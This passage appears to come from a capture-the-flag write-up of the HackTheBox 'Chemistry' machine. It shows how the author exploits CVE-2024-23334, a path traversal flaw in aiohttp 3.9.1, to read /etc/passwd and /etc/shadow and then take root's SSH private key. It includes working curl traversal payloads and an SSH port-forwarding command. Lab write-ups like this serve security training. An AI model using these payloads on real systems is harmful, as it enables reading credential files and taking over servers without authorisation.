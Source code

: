 I sent a cURL request to confirm that the web application was up and running.

```bash
rosa@chemistry:~$ curl -I localhost:8080
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Sat, 09 Nov 2024 05:14:00 GMT
Server: Python/3.9 aiohttp/3.9.1
```

Since the machine was too slow, i forwarded the port to my attacker machine to test locally

```python
SSH -L 8888:127.0.0.1:8080 rosa@chemistry.htb
```

#### Vulnerable aiohttp LFI

From the previous cURL request, it appears that the web application is a Python Flask app, and it seems to be using [aiohttp](https://pypi.org/project/aiohttp/) for handling request routes.

With this information i simply googled `aiohttp/3.9.1 vulnerability` and found that it is vulerable to [CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334). A path traversal vulnerability in the python AioHTTP library =< 3.9.1

After reviewing various reports and proof-of-concepts (PoCs) for the CVE, I found that the simplest payload can be executed using a basic cURL request.

```bash
curl -s --path-as-is "http://localhost:8081/static/../../../../../etc/passwd
```

However, I initially received a `404: Not Found error`. After performing some directory busting, I discovered the path `/assets (Status: 403, Size: 14)`, which indicated that the static folder is located elsewhere, so for the application we are dealing with it could be `assets` for the static path, now all that's needed is to change `static` to `assets`.

```bash
curl -s --path-as-is http://localhost:8888/assets/../../../../../etc/passwd
```

Learn more about the vulnerability at

[CVE-2024-23334: A Deep Dive into aiohttp's Directory Traversal Vulnerability](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/)\
[aiohttp.web.static(follow_symlinks=True) is vulnerable to directory traversal](https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f)


#### #PWNED

With Local File Inclusion (LFI) now confirmed, I attempted to list files such as `/etc/shadow`, and the request was successful. This indicates that we can read arbitrary files on the system. In fact, when attempting to read `/root/.ssh/id_rsa`, the private key was returned, which we the use to SSH into the system as the root user.

